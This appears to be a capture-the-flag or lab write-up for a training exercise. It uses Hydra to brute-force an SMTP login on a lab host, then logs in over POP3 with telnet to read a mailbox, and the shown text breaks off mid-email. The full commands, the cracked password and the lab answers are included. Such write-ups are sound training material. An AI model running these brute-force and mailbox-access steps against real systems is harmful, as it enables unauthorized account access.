 2. Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

**Get password via Hydra**
```
$ hydra -l marlin@inlanefreight.htb -P pws.list -f 10.129.203.12 smtp 

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-21 16:47:39
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 333 login tries (l:1/p:333), ~21 tries per task
[DATA] attacking smtp://10.129.203.12:25/
[25][smtp] host: 10.129.203.12   login: marlin@inlanefreight.htb   password: poohbear
[STATUS] attack finished for 10.129.203.12 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-21 16:48:13

```
**password: poohbear**

**Now log into the email server:**

Use the command `list` to list the numbered email messages. And `retr 1` to display the contents of the first message
```

telnet 10.129.203.12 110
Trying 10.129.203.12...
Connected to 10.129.203.12.
Escape character is '^]'.
+OK POP3
USER marlin@inlanefreight.htb                                   
+OK Send your password
PASS poohbear
+OK Mailbox locked and ready
list
+OK 1 messages (601 octets)
1 601
.
retr 1
+OK 601 octets
Return-Path: marlin@inlanefreight.htb
Received: from [10.10.14.33] (Unknown [10.10.14.33])
        by WINSRV02 with ESMTPA
        ; Wed, 20 Apr 2022 14:49:32 -0500
Message-ID: <85cb72668d8f5f8436d36f085e0167ee78cf0638.camel@inlanefreight.htb>
Subject: Password change
From: marlin <marlin@inlanefreight.htb>
To: administrator@inlanefreight.htb
Cc: marlin@inlanefreight.htb
Date: Wed, 20 Apr 2022 15:49:11 -0400
Content-Type: text/plain; charset="UTF-8"
User-Agent: Evolution 3.38.3-1 
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

Hi admin,

How can I change my password to something more secure? 
```